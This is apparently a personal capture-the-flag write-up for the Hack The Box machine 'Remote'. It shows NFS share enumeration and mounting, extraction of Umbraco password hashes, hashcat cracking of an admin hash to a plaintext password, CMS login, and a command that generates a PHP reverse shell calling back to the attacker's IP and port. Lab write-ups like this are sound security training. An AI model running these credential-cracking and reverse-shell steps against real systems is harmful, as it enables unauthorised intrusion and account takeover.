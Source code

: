 ### SMB

- No null auth

### NFS (mountd)

```
┌─[✗]─[monty@parrot]─[~/ctfs/htb/boxes/remote]
└──╼ $showmount -e remote.htb
Export list for remote.htb:
/site_backups (everyone)
```
- site\_backups directory
- Mounted it locally

```
┌─[✗]─[monty@parrot]─[~/ctfs/htb/boxes/remote]
└──╼ $sudo mount -t nfs remote.htb:/site_backups/ recon/mnt/site_backups/
```

- The site connects to a SQL backend
- Credentials are found in site\_backups/App\_Data/Umbraco.sdf

```
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```

admin:admin@htb.local:b8be16afba8c314ad33d812f22a04991b90e2aaa

b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese

`hashcat -a 0 -m 100 admin_cms_hash.txt /home/monty/.../rockyou.txt`

## Inititial Access

Login to the CMS at http://remote.htb/umbraco with admin@htb.local:baconandcheese works

There is a file upload functionality on this machine, trying a PHP reverse shell ([created using](https://github.com/montysecurity/shellclip))

```
┌─[monty@parrot]─[~/ctfs/htb/boxes/remote/recon]
└──╼ $shellclip --lhost 10.10.14.187 --lport 5253 -c php
```
